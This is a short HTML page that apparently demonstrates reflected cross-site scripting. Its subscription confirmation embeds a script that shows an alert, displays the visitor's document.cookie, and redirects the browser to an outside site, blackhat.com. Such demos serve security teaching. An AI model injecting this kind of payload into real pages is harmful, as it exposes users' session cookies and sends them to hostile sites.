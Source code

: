 <!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title></title>
  </head>
<body>
    <script src="analytics.js">
    </script>
<form action=# method="get">
<input type="text" name="email"><input type="submit" value="Subscribe!">
</form>
Thank you for subscription!<br>
Email <b><script> alert('This is XSS is crafted by Pravin Shinde'); if (window.confirm(document.cookie)){ document.location.href = "http://blackhat.com"; } </script></b> added to mailing list!
</body>

</html>
